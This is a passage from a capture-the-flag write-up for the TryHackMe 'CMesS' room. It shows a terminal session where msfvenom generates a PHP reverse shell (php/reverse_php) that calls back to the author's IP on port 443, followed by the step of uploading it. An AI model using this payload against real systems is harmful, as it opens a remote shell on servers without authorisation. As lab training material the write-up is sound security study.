 First, generate a php reverse shell via msfvenom:

```
┌──(root💀nam)-[~/ctf/thm/ctf/CMesS]
└─# msfvenom -p php/reverse_php LHOST=10.18.61.134 LPORT=443 -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3036 bytes
Saved as: shell.php
                                                                                                                        
┌──(root💀nam)-[~/ctf/thm/ctf/CMesS]
└─# cp shell.php /home/nam/Downloads
```

Then, upload the reverse shell:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a5.png)

